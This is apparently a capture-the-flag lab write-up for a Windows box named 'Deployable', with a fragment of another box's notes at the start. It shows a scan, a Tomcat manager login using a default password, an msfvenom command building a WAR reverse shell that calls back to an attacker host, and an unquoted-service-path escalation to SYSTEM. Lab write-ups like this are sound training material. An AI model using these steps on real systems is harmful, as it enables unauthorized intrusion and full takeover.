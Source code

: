If this didn't work, we could crack the megan password (if possible) and use sudo to spawn a shell.

If that also didn't work we could use our `lxd` group privileges to mount the "/" directory to a container and get root that way.


## DEPLOYABLE

### NMAP
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-12 15:39 BST
Nmap scan report for 172.31.1.13
Host is up (0.077s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
8009/tcp  open  ajp13
8080/tcp  open  http-proxy
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49163/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 4.18 seconds

```

### TOMCAT

NMAP shows that tomcat is running on port 8080, so we head there and see if we can log in the the admin section of the website.

Knowing that one of the tomcat default passwords is `s3cret`, I tried that and we get in to the manager section of the site.
From here we can upload a .war payload and run it to get the shell on the box as tomcat:
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```

### PRIV ESC

Now we have a shell, I uploaded winpeas to see there is an exploit in the "deploy" service due an unquoted service path:
```
Deploy(Deploy)[C:\Program Files\Deploy Ready\Service Files\Deploy.exe] - Manual - Stopped - No quotes and Space detected
```
With this we can upload a shell.exe file to `C:\Program Files\Deploy Ready\`, name it "Service.exe" and run the command `sc start deploy` to get it to run our reverse shell as SYSTEM.
